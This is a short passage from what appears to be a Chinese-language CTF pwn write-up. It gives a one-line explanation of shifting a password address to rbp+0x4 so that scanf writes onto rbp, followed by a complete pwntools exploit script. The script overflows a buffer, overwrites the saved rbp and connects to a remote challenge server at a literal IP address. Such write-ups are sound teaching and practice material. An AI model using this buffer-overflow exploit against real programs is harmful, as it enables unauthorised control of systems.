 <img src="./images/image-20250203140921533.png" alt="image-20250203140921533" style="zoom:67%;" />

所以可以将`passwd`迁移到`rbp+0x4`的位置，这样通过`scanf`读入寻址，刚好读到`rbp`上

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('1.95.36.136',2138)
def dbg():
    gdb.attach(p)
    pause()

passwd_addr = 0x4033CC
payload = b'b'*0x50+p64(passwd_addr+0x4)
p.sendline(payload)

p.sendlineafter("input1:","4660")
p.interactive()
```
